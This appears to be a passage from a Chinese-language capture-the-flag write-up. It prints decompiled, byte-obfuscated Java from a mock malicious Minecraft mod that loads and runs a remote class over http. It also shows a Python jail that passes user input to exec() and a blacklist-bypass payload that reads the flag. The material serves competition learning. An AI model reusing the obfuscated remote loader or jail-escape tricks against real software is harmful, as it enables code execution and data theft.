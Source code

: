 ### Flagtureiser

背景应该是一个 Minecraft 恶意Mod。反编译一下然后这串代码非常可疑，应该是为了免杀。

```java
Class.forName(new String(new byte[] { 
              106, 97, 118, 97, 46, 110, 101, 116, 46, 85, 
              82, 76, 67, 108, 97, 115, 115, 76, 111, 97, 
              100, 101, 114 })).getConstructor(new Class[] { URL[].class }).newInstance((Object[])new URL[] { new URL(new String(new byte[] { 104, 116, 116, 112 }, ), new String(new byte[] { 
                  98, 99, 97, 99, 116, 102, 123, 102, 82, 97, 
                  67, 116, 117, 114, 51, 49, 115, 51, 82, 95, 
                  115, 84, 56, 103, 69, 95, 122, 51, 82, 48, 
                  125 }, ), 8080, new String(new byte[] { 47, 100, 108 })) })).getMethod(new String(new byte[] { 114, 117, 110 }, ), new Class[] { String.class }).invoke(null, new Object[] { "-114.-18.38.108.-100" });
  }
```

然后这串数组喂给cyberchef就直接出来flag了。

## Misc

外国人的misc都有点脑洞...... 以及他们貌似喜欢单独开一个forensic，这里就合并在misc了。

### JailBreak 1

deploy.py

```python
def sanitize(letter):
    print("Checking for contraband...")
    return any([i in letter.lower() for i in BANNED_CHARS])

BANNED_CHARS = "gdvxftundmnt'~`@#$%^&*-/.{}"
flag = open('flag.txt').read().strip()

print("Welcome to the prison's mail center")
msg = input("Please enter your message: ")

if sanitize(msg): 
    print("Contraband letters found!\nMessage Deleted!")
    exit()

exec(msg)
```

绕过一些字符限制读flag变量即可，最后用help打成功了。payload

```python
help(locals()[(chr(102)+chr(108)+chr(97)+chr(103))])
```

### Mathjail
